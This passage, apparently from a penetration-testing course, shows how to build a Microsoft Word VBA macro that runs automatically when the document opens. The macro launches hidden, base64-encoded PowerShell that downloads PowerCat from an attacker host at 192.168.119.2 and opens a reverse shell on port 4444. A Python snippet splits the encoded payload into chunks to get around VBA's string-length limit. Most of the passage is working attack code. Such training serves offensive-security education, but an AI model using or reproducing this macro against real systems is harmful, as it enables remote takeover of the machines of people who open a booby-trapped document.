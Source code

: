 We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.

To do this, we'll click on the Macros element in the View tab, select MyMacro in the list and click on Edit to get back to the macro editor. Next, we'll declare a string variable named Str with the Dim14 keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat. The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable.

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```
Next, we'll employ a PowerShell command to download PowerCat and execute the reverse shell. We'll encode the command with base64 to avoid issues with special characters as we've dealt with in previous Modules. The following listing shows the PowerShell command before base64-encoding.

>To base64-encode our command, we can use pwsh on Kali as we did in the Common Web Application Attacks Module.

>>IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the Str variable. To do this, we store the PowerShell command in a variable named str and the number of characters for a chunk in n. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the base64-encoded string into smaller chunks, we can update our macro:

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
```